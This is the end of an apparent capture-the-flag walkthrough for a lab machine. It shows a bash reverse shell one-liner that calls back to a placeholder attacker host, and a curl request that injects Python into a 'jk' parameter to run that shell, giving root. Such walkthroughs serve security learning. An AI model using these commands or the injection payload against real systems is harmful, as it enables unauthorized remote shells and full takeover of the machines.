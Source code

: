 ```

bash reverse shell command:

```
bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1
```

After we put the file there we will send a command using the exploit we found:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/rev\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8888/flash/addcrypted2'


Note: that we send a bash command to execute the rev file.
```

BUT before sending we have to set up a listener locally:


![](../assets/images/PC/20230914124810.png)


Then lets execute the exploit command:


![](../assets/images/PC/20230914124859.png)

Now if we went to our listener we will find a root shell!!

![](../assets/images/PC/20230914124946.png)

And done machine....


Thanks for reading!

Happy hacking!! :)

